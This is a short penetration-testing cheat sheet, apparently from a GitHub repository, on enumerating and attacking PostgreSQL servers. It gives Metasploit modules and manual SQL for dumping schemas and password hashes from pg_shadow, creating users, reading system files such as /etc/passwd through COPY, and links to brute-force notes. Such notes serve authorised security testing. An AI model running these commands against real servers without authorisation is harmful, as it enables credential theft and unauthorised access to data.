 # PostGreSQL

## Enumeration using metasploit

### Determining Version of PostGreSQL Server

Metasploit can be used to determine the version of a PostGreSQL server using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_version`

### Dumping Database Schema

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_schemadump`

### Create a database user 

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/admin/postgres/postgres_sql`
`set SQL CREATE USER <username>;`

### Dump PostGreSQL Usernames and Password Hashes

Setting the RHOST value to the target server and using the following auxiliary module:

`use auxiliary/scanner/postgres/postgres_hashdump`

### Read Local File

The following auxiliary module can be used to read a file from the local file system:

`use auxiliary/admin/postgres/postgres_readfile`
`set RFILE /path/to/file.txt`
`set RHOSTS <IP>`

## Manual Enumeration

### Read Local file

1) Connect to the postgres database 

`psql -h <IP> -U <username>`

2) Create a new table to store the contents of the file:

`CREATE TABLE tablename(t TEXT);`

3) Copy the contents of the file into table:

`COPY tablename FROM '/etc/passwd';`

4) Show the contents of the file stored within the table "tablename"

`SELECT * FROM tablename limit 30 offset 0;`

### Dump PostGreSQL Database Usernames and Password Hashes

`select usename, passwd from pg_shadow;`

## Bruteforcing Login Passwords

### Bruteforcing using Hydra

(Hydra Bruteforce)[https://github.com/curtishoughton/Penetration-Testing/blob/master/password-cracking/hydra.md#postgresql-database-login]
